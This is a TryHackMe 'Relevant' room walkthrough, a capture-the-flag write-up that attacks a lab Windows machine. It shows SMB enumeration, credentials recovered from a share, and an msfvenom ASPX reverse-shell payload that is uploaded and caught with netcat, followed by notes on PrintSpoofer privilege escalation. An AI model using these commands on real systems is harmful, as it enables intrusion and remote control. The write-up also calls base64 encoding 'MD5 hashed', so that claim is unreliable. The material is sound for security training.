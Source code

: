 ```yaml
---
title: TryHackMe - Relevant Room Walkthrough
author: skullhat
date: '2023-06-17 00:34:00 +0800'
comments: true
categories:
  - thm
  - ctf
tags:
  - windows
  - active_directory
published: true
---
```

## Scope:

- The client has asked that you secure two flags (no location provided) as proof of exploitation:
	- User.txt
	- Root.txt
- Any tools or techniques are permitted in this engagement, however we ask that you attempt manual exploitation first  
- Locate and note all vulnerabilities found
- Submit the flags discovered to the dashboard
- Only the IP address assigned to your machine is in scope
- Find and report ALL vulnerabilities (yes, there is more than one path to root)

## Basic OS Detection

```bash
ping -c 1 10.10.97.109
PING 10.10.97.109 (10.10.97.109) 56(84) bytes of data.
64 bytes from 10.10.97.109: icmp_seq=1 ttl=127 time=285 ms
```

- Probably a Windows machine.
## Enumeration using `nmap`



## SMB:445
### Null Authentication
- Try null authentication, but getting nothing. Based on nmap output the `gust` account can access the shares.

```bash
crackmapexec smb 10.10.97.109 -u "" -p "" --shares
```

- When trying `gust` has juicy folder called nt4wrksv with read and write permissions.

```bash
crackmapexec smb 10.10.97.109 -u "gust" -p "" --shares

```


- Found `passowrds.txt` then create smb directory and move it there.

``` bash
crackmapexec smb 10.10.176.144 -u "gust" -p "" -M spider_plus
smbclient //10.10.176.144/nt4wrksv -U ""
```
- The users passwords was MD5 hashed.

> The Hash
Qm9iIC0gIVBAJCRXMHJEITEyMw==
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk

> The Plain Text
Bob:!P@$$W0rD!123
Bill:Juw4nnaM4n420696969!$$$                                          


### SMB relay
- From nmap and cme the SMB signing is disable, so smb relay may work.
- Can not perform smb relay.

## Getting a shell

1. Try bill account on `evil-winrm` and can not access. Also try on RDP and failed. So it must be fake!
2. found that port 49663 has also a web server and run `gobsuter` to enumerate directories and found one with same `smb` share name! 

- http://10.10.247.115:49663/nt4wrksv/shell.aspx


``` bash
msfvenom -p windows/x64/shell_reverse_tcp LPORT=9001 LHOST=10.9.78.51  -f aspx -o shell.aspx 
smbclient //10.10.247.115/nt4wrksv -U 'bob'
smb: \> put shell.aspx
sudo rlwrap nc -lnvp 9001
```

## Local Enumeration 

``` powershell
whoami /all
systeminfo
```

## PrivEsc

- We found `SeImpersonatePrivilage` so we can run [PrintSpoofer](https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0) which is Abusing Impersonation Privileges From LOCAL/NETWORK SERVICE to SYSTEM by abusing SeImpersonatePrivilege on Windows 10 and Server 2016/2019.


- Potatoes attack is detected by the AV.
- There is a problem in kali preventing me performing Etrnalblue MS17-010
